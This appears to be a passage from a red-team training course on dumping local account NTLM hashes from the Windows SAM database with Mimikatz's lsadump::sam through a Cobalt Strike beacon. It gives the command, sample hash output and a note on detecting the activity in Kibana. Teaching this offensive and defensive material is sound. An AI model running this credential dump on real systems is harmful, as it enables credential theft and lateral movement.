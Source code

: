 The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only.  These can be extracted with the `lsadump::sam` Mimikatz module.  If a common local administrator account is being used with the same password across an entire environment, this can make it very trivial to move laterally.

  This command requires elevated privileges.

  
```
beacon> mimikatz !lsadump::sam
	
Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a
Local SID : S-1-5-21-2281971671-4135076198-2136761646

SAMKey : b0664279732686cfbb4b788c078fea82

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 91b6e660bcac036ae7ab67a3d383bc82
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
```
  

  **OPSEC**  
  
This module will open a handle to the SAM registry hive.  Use the "Suspicious SAM Hive Handle" saved search in Kibana to see them.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/065/ad1/0b9/sam-read.png)